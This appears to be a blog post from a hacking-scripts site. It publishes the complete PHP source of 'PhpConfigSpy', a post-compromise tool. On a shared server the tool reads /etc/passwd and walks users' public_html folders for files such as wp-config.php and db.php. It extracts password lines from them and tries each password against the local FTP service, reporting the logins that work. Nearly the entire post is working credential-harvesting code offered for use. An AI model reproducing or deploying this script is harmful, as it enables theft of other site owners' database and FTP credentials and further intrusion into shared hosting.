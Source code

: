 ```yaml
---
id: 187
title: PhpConfigSpy
author: admin
layout: post
guid: http://hackingscripts.com/?p=187
permalink: /phpconfigspy/
categories:
  - PHP
tags:
  - PHP
  - PhpConfigSpy
---
```

This script appears to try to obtain login details for a compromised server.


### PhpConfigSpy Source Code

{% highlight php linenos %}<?php 
echo "&lt;html&gt;"; 
echo "&lt;title&gt;PhpConfigSpy v0.1&lt;/title&gt;&lt;body&gt;"; 

set_time_limit(0); 

###
###
###
###
###
###
###
###
### 
@$passwd=fopen('/etc/passwd','r'); 
if (!$passwd) { 
  echo "[-] Error : coudn't read /etc/passwd"; 
  exit; 
} 
$path_to_public=array(); 
$users=array(); 
$pathtoconf=array(); 
$i=0; 

while(!feof($passwd)) { 
$str=fgets($passwd); 
if ($i&gt;35) { 
   $pos=strpos($str,":"); 
   $username=substr($str,0,$pos); 
   $dirz="/home/$username/public_html/"; 
   if (($username!="")) { 
       if (is_readable($dirz)) { 
           array_push($users,$username); 
           array_push($path_to_public,$dirz); 
       } 
   } 
} 
$i++; 
} 

###
###
###
###
###
###
###
###
#### 


###
###
###
###
###
###
###
###
###
###
###
#### 
echo "&lt;br&gt;&lt;br&gt;"; 
echo "&lt;textarea name='main_window' cols=100 rows=20&gt;"; 

echo "[+] Founded ".sizeof($users)." entrys in /etc/passwd\n"; 
echo "[+] Founded ".sizeof($path_to_public)." readable public_html directories\n"; 

echo "[~] Searching for passwords in config.* files...\n\n"; 
foreach ($users as $user) { 
       $path="/home/$user/public_html/"; 
       read_dir($path,$user); 
} 

echo "\n[+] Done\n"; 

function read_dir($path,$username) { 
   if ($handle = opendir($path)) { 
       while (false !== ($file = readdir($handle))) { 
             $fpath="$path$file"; 
             if (($file!='.') and ($file!='..')) { 
                if (is_readable($fpath)) { 
                   $dr="$fpath/"; 
                   if (is_dir($dr)) { 
                      read_dir($dr,$username); 
                   } 
                   else { 
                        if (($file=='config.php') or ($file=='config.inc.php') or ($file=='db.inc.php') or ($file=='connect.php') or ($file=='wp-config.php') or ($file=='var.php') or ($file=='configure.php') or ($file=='db.php') or ($file=='db_connect.php')) { 
                           $pass=get_pass($fpath); 
                           if ($pass!='') { 
                              echo "[+] $fpath\n$pass\n"; 
                              ftp_check($username,$pass); 
                           } 
                        } 
                   } 
                } 
             } 
       } 
   } 
} 

function get_pass($link) { 
   @$config=fopen($link,'r'); 
   while(!feof($config)) { 
       $line=fgets($config); 
       if (strstr($line,'pass') or strstr($line,'password') or strstr($line,'passwd')) { 
           if (strrpos($line,'"')) 
              $pass=substr($line,(strpos($line,'=')+3),(strrpos($line,'"')-(strpos($line,'=')+3))); 
           else 
              $pass=substr($line,(strpos($line,'=')+3),(strrpos($line,"'")-(strpos($line,'=')+3))); 
           return $pass; 
       } 
   } 
} 

function ftp_check($login,$pass) { 
    @$ftp=ftp_connect('127.0.0.1'); 
    if ($ftp) { 
       @$res=ftp_login($ftp,$login,$pass); 
       if ($res) { 
          echo '[FTP] '.$login.':'.$pass."  Success\n"; 
       } 
       else ftp_quit($ftp); 
    } 
} 

echo "&lt;/textarea&gt;&lt;br&gt;"; 

echo "&lt;/body&gt;&lt;/html&gt;"; 
?>
{% endhighlight %}